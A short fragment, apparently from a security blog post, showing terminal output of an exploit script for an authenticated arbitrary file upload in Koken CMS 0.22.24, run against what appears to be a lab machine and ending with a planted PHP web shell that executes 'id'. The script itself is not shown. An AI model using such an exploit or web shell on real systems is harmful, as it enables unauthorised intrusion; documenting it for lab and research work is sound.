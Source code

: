 You're welcome.  

```plain
$ python3 koken_exploit.py http://192.168.56.18:18888/ angela@dundermifflin.com Crinklepuss                                   
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated) 
-- devl00p.github.io 2022 -- 
Successfully authenticated as Angela Martin 
Enjoy your shell at http://192.168.56.18:18888//storage/originals/a6/49/slrejsflxgxopplfbcfp.php?cmd=id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


*Published January 27 2022 at 23:42*
